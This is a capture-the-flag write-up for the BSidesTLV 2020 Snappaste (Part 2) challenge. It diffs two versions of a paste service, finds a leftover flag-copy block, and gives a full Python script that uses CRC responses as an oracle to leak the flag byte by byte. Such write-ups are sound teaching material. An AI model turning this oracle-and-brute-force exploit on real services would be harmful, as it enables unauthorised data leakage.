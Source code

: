 # Snappaste (Part 2) Writeup

Here's an improved version of our pasting service. Some weird stuff was happening in the previous version, so we added an integrity check for the pastes. Also, due to misuse, we began limiting the size of the pasted snippets (please don't paste Kali Linux ISOs, thanks).

URL: https://snappaste2.ctf.bsidestlv.com/

To compile, Use the following commands:

gcc -c -std=c99 zlib/*.c  
g++ -c -std=c++14 snappaste.cc   
g++ -o snappaste *.o -pthread  

By Michael Maltsev

## Solution

By using WinMerge we could observe the next major differences between the versions:

- `dword data_crc32;` added in `PASTE_NETWORK_HEADER`
- Size checking added:

```c
// Prevent service misuse
if (header->metadata_size > 0x10000 || header->data_compressed_size > 0x10000 || header->data_decompressed_size > 0x10000) {
  throw std::invalid_argument("data size too big :(");
}
```

- The next code was added:

```c
// TODO: remove after testing
if (true) {
  auto flag = readfile("./flag");
  if (paste_received->data_size >= flag.size()) {
    memcpy(paste_received->data, flag.c_str(), flag.size());
    if (backdoor) {
      backdoor = false;
      paste_received->metadata_size = 0;
      paste_received->data_size = static_cast<dword>(flag.size());
      return paste(paste_received);
    }
  }
}
```

- CRC validation.

This time we can't change `backdoor` variable because we don't have the previous integer overflow. Lets try to find new vulnerabilities with the added code.

Actually, this code:

```c
auto flag = readfile("./flag");
if (paste_received->data_size >= flag.size()) {
  memcpy(paste_received->data, flag.c_str(), flag.size());
```

Is giving us opportunity to leak the flag because it is being copied into the `paste_received->data_size` location, but it is being overwritten later with our data:

```python
uncompress(paste_received->data, &dest_len, data, header->data_compressed_size);
```

When we tried giving large `paste_received->data_size` value, but small actually compressed data (to see the rest of the flag), we are failing at the next CRC check:

```python
crc32(0, paste_received->data, paste_received->data_size);
```

Because we don't know the flag content, we can't really guess/bruteforce the CRC.

What we CAN do is to guess one letter at a time.

Lets first guess the flag length:

```python
guessed_length = 38

metadata = b'{"name": "alex","date":"2020-06-28T15:52:21.519Z"}'
metadata_size = len(metadata)
data_decompressed_size = guessed_length
data_decompressed = b'\x00'
data_compressed = zlib.compress(data_decompressed)
data_compressed_size = len(data_compressed)
data_crc32 = zlib.crc32(b'\x00'*guessed_length)

paste_data = b''
paste_data += struct.pack('<I', metadata_size)
paste_data += struct.pack('<I', data_compressed_size)
paste_data += struct.pack('<I', data_decompressed_size)
paste_data += struct.pack('<I', data_crc32)
paste_data += metadata
paste_data += data_compressed

r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
r = requests.get(view_url + r.content.decode('ascii'), verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
print(r.content)
```

If the response is a successful one, the flag is bigger than `guessed_length`, if we get `integrity error :(` then flag is equal or small.

After a bit of guessing we calculated flag length is 38.

So how can we guess one letter at a time ?

If we give `data_decompressed_size` value of 38, we will pass the flag check, and the flag will be copied into the data buffer. Now, if we give actual data length of 37, we can bruteforce all possible last byte options (256 or less) untill the server returns successful response.

We can discover that way our whole flag.

Python Script:

```python
import requests
import struct
import zlib

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# url = 'http://127.0.0.1:8080/'
url = 'https://snappaste2.ctf.bsidestlv.com/'
paste_url = url + 'paste'
view_url = url + 'view/'
backdoor_url = url + 'backdoor/'

flag = [0] * 38
current_iteration = 1

for _ in range(38):
    for i in range(256): 
        print('.', end = '')
        metadata = b'{"name": "alex","date":"2020-06-28T15:52:21.519Z"}'
        metadata_size = len(metadata)
        data_decompressed_size = 38
        data_decompressed = b'\x00' * (data_decompressed_size - current_iteration)
        data_compressed = zlib.compress(data_decompressed)
        data_compressed_size = len(data_compressed)

        crc_candidate = data_decompressed + bytes([i]) + bytes(flag[38 - current_iteration + 1:])
        data_crc32 = zlib.crc32(crc_candidate)

        paste_data = b''
        paste_data += struct.pack('<I', metadata_size)
        paste_data += struct.pack('<I', data_compressed_size)
        paste_data += struct.pack('<I', data_decompressed_size)
        paste_data += struct.pack('<I', data_crc32)
        paste_data += metadata
        paste_data += data_compressed

        r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
        if b'integrity' in r.content:
            continue

        r = requests.get(view_url + r.content.decode('ascii'), verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
        print(r.content)
        flag[38-current_iteration] = r.content[-current_iteration]
        current_iteration += 1
        break
```

Flag: `TLV2020{N3veR-Tru$t-us3R-iNput!}`
